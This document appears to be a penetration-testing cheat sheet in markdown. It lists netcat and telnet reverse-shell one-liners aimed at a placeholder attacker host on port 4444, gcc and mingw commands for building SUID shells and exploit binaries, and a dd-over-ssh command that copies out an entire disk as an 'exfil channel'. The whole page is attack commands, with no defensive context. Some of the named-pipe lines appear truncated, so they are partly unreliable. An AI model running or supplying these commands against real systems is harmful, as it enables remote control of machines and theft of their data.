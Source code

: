 ## Netcat Reverse Shell:
```
nc -e /bin/sh 10.0.0.1 1234
nc -c /bin/sh attackerip 4444
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```
## Telnet:
```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```
```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp
```

### Building the SUID Shell binary
```
gcc -o suid suid.c 
gcc -o exploit exploit.c
``` 

### For 32 bit:
```
gcc -m32 -o suid suid.c  
gcc -m32 exploit.c -o exploit
```

### Compile Windows .exe on Linux
Build / compile windows exploits on Linux, resulting in a .exe file.
```
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```


# Encrypted exfil channel:
```
dd if=/dev/<disk-to-copy> bs=65536 conv=noerror, sync | ssh -C <user>@<ip-address> "cat > /tmp/image.dd"
```



